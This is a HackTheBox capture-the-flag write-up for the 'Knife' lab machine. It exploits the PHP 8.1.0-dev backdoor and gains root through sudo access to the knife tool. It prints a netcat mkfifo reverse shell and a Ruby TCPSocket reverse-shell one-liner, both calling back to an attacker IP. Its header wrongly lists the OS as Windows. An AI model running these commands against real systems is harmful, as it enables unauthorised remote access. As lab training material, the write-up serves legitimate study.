

#  Knife - HackTheBox WriteUp

OS: Windows 

Difficulty: Easy

IP: 10.10.10.242

Vulnerabilities: 

### Scanning, Recon & Information Gathering

The penetration test was started by running a quick full TCP nmap scan against the target:

nmap -p- -T4 10.10.10.242


#### Service Enumeration 

**Port 80**


Navigating to the home page and checking the headers via a proxy like burp:


PHP/8.1.0-dev is identified as PHP version

Searching for exploits:

searchsploit PHP '8.1.0-dev'


Using the exploitt script and running the following commands will lead to a shell on the target:

```
searchsploit -m 49933.py
mv 49933.py php_8_1_0_dev_exploit.py
python3 php_8_1_0_dev_exploit.py http://10.10.10.242/
id
cat /home/james/user.txt
```


Using netcat we can get a reverse shell

```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.114 443 >/tmp/f```



Privilege Escalation:


Upgrade the terminal using python
```
$ which python
$ which python3
/usr/bin/python3
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
james@knife:/$ ^Z
[1]+  Stopped                 nc -lnvp 443
root@kali:/pwn_share/HTB/knife# stty raw -echo
root@kali:/pwn_share/HTB/knife# nc -lnvp 443

james@knife:/$ export TERM=xterm
james@knife:/$
```

Checking for what the user can do with sudo:

```james@knife:/$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

Reading the knife help and documentation, we find that it can execute ruby scripts.

```sudo /usr/bin/knife --help```


creating a script in the /tmp directory with the following contents

```exit if fork;c=TCPSocket.new("10.10.14.114","443");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end```

This will initiate a reverse shell connection back to the attacker's machine where a listener is running.

All of this can be done using reverse shell generator 

```rsg 10.10.14.114 443 ruby```

And then copying the contents to a new script in /tmp/my.rb

Executing the script
```sudo /usr/bin/knife exec '/tmp/my.rb'```

```
id
cat /root/root.txt
```


